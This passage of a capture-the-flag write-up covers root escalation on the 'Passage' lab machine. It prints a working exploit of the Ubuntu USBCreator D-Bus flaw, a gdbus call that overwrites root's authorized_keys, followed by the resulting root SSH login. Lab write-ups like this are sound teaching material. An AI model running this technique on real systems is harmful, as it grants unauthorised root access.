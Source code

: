 ```console
# Jumplist (newest first):
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

# History of marks within files (newest to oldest):

> /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
        "       12      7

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0
nadav@passage:~$ ~
```
On this file, I found something interesting. So I searched about polkit and dbus and how can these things can be used to get my way on to root. And then I found [this](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) amazing article at last which explains how the vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. 
![13](/assets/images/passage/13.png)
This image shows how can we can overwrite arbitrary files on the filesystem, as root, without any password. So, let us try and overwrite the root's `authorized_keys` file with the public key of nadav.
```console
nadav@passage:~/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub  known_hosts
nadav@passage:~/.ssh$ pwd
/home/nadav/.ssh
nadav@passage:~/.ssh$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/id_rsa.pub /root/.ssh/authorized_keys true 
()
nadav@passage:~/.ssh$ 
```

## Trying to login with nadav's private key
```console
nadav@passage:~/.ssh$ ssh -i id_rsa root@passage
Last login: Fri Sep 18 04:45:05 2020 from 10.10.14.12
root@passage:~#
```
And we are root.
## Reading root.txt
```console
root@passage:~# cat root.txt 
cc0cf************************00aa
```
